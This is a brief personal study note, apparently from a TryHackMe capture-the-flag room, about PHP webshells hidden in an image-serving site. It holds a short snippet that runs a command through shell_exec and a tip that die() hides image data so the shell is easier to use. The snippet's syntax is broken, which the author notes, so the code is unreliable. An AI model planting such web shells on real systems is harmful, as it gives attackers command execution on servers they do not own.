# php webshells

TODO
> php site using php to show images
```php
if isset {
	echo "<pre>".shell.exec($cmd)."</pre>";
}
die(); 
```
`die()` removes the image garbage, making our shell easier to use


above `isset` block has semantic err? need the "what" of isset, what is set ? 
source of the above is from THM wreath room

